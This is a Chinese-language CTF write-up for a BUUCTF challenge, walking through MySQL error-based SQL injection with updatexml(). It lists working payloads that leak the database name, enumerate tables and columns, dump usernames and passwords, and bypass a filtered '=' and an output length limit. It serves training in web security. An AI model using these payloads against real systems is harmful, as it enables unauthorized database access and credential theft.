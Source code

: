 

### updatexml() 报错注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/6848e66a58cb8da5c842e442.jpg)

初次尝试万能密码登录成功，说明闭合为单引号

![](https://pic1.imgdb.cn/item/6848e79b58cb8da5c842f049.jpg)

`updatexml()` 用于更新 XML 数据，它接受 3 个参数

```sql
# xml_target：目标 XML 文本（必须是合法 XML 格式，否则报错）
# xpath_expr：XPath 表达式，用于选中 XML 中的节点
# new_value：要更新的新值
UPDATEXML(xml_target, xpath_expr, new_value)
```

在 MySQL 中使用 `updatexml()` 函数报错时，它通常会抛出一个 **XPATH 语法错误**，并将你传入的第二个参数（即 XPath 表达式）的一部分直接显示在错误信息中

第一、三个参数肯定会报错，所以我们将 `database()` 放在中间，这样就会执行显示出数据库名

可以再加上 `concat()` 函数将显示内容包裹起来，`0x7e` 即波浪号 `~`

```sql
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/68495faa58cb8da5c8450122.jpg)

接下来就是爆表，这里注意 `=` 被过滤了使用 `like` 代替

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849601f58cb8da5c84503d9.jpg)

接下来爆字段

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849604658cb8da5c8450538.jpg)

查字段内容

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(username,'~',password))from(H4rDsq1)),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849608258cb8da5c845079a.jpg)

使用 `right()` 突破字符限制

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(password,25))))from(H4rDsq1)),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849608e58cb8da5c8450840.jpg)